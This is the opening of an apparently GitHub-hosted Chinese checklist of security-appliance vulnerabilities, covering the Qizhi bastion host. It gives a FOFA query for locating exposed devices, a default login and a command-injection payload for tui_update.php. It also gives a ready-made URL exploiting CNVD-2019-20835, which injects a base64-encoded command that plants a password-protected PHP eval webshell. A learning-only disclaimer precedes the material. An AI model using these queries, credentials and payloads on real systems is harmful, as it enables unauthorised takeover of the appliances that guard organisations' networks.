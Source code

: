 # 安全设备漏洞 Checklist

更新时间：2023.06

##### **【免责声明】本项目所涉及的技术、思路和工具仅供学习，任何人不得将其用于非法用途和盈利，不得将其用于非授权渗透测试，否则后果自行承担，与本项目无关。使用本项目前请先阅读 [法律法规](https://github.com/Threekiii/Awesome-Laws)。**

&#x2705; 表示漏洞文档已收录 [Vulnerability-Wiki]( https://github.com/Threekiii/Vulnerability-Wiki) 漏洞库，仅收录2022/2023年部分安全设备，全部 iot 漏洞列表见 [README.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/iot/README.md)。参考阅读：[ffffffff0x/SecDevice-Exploits](https://github.com/ffffffff0x/1earn/blob/master/1earn/Security/RedTeam/%E5%AE%89%E9%98%B2%E8%AE%BE%E5%A4%87/SecDevice-Exploits.md#%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA)

## 一、身份与访问控制

### 0x01 堡垒机

#### 齐智堡垒机

FOFA：

```
app="齐治科技-堡垒机" 
```

##### 默认口令

```
shterm/shterm
```

##### shterm命令执行 tui.update.php

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```

##### 前台命令执行 cluster_manage.php CNVD-2019-20835

访问以下路径，返回 ok：

```
http://10.20.10.11/listener/cluster_manage.php
```

写入webshell：

```
/var/www/shterm/resources/qrcode/lbj77.php  密码10086
```

```
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
```
